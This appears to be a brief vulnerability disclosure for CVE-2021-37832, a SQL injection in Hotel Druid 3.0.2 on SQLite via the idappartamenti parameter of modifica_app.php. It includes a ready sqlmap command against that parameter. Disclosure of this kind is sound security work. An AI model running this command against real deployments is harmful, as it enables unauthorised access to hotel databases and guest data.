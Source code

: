 # CVE 2021-37832 Hotel Druid 3.0.2 SQL Injection Vulnerability

A SQL injection vulnerability exists in version 3.0.2 of Hotel Druid when SQLite is being used as the application database. A malicious attacker can issue SQL commands to the SQLite database through the vulnerable idappartamenti parameter.

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37832

https://nvd.nist.gov/vuln/detail/CVE-2021-37832#match-6858716

Vulnerable PHP Page:

modifica_app.php - idappartamenti parameter

Vulnerable Payload

sqlmap -u "<ipaddress>/modifica_app.php?tipo_tabella=appartamenti&anno=2021&id_sessione=&idappartamenti=01" --level=3 --risk=2 --banner --dbms=sqlite

Discovered by Joe Helle, July 2021
